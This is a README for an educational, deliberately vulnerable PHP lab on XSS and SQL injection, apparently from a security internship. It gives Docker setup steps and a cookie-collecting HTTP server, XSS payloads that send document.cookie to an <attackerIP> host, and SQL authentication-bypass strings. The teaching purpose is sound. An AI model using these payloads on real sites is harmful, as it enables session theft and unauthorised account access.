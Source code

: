 # Vulnerable PHP Application - XSS and SQL Injection

## Description

This repository gathers various tools and techniques utilized during a system security internship. It serves as an educational resource to demonstrate common web security vulnerabilities, including **Cross-Site Scripting (XSS)** and **SQL Injection (SQLi)**. The repository provides a vulnerable PHP application where users can test and understand how these exploits work in a controlled environment.

## Features

- Hands-on demonstration of web vulnerabilities
- Dockerized setup for easy deployment
- Practical attack payloads for testing security weaknesses

## Analyzed Vulnerabilities

- **XSS (Cross-Site Scripting)**
  - Reflected
  - Stored
- **SQL Injection**

## Start the Vulnerable Lab

1. Install Docker for your operating system.
2. Clone or download this repository.
3. Start Docker.
4. Open a command prompt inside the project root directory and execute the following command:
   ```sh
   docker compose up --build
   ```

## Start the Attacker Web Server

To collect stolen cookies, a simple HTTP server is used. Launch it using:
```sh
python -m http.server 8000
```

## XSS Attack Payloads

### Reflected Cross-Site Scripting (XSS)
This script forces the victim’s browser to send their cookies to an attacker-controlled server:
```html
<script>window.location.replace("http://<attackerIP>:8000/a.html?c=" + document.cookie);</script>
```

### Stored Cross-Site Scripting (XSS)
This method, although noisy, continuously triggers requests by injecting a malicious image tag:
```html
<img src="invalid" onerror=this.src='http://<attackerIP>:8000/' + document.cookie; />
```

For a more discreet approach, use this:
```html
<script>i=document.createElement('img');i.src='http://<attackerIP>:8000/'+document.cookie;document.body.appendChild(i)</script>
```

### Basic Alert Test
```html
<script>alert(document.cookie)</script>
```

## SQLi Payloads

### Authentication Bypass
To gain access to the first account saved in the database:
```sql
' OR 1=1 --
```

To gain access to an account by knowing the username:
```sql
[username]' OR 1=1 --
```

### ID-Based Authentication Bypass
Bypassing authentication using an ID-based query:
```sql
id = 100 OR 1=1
```


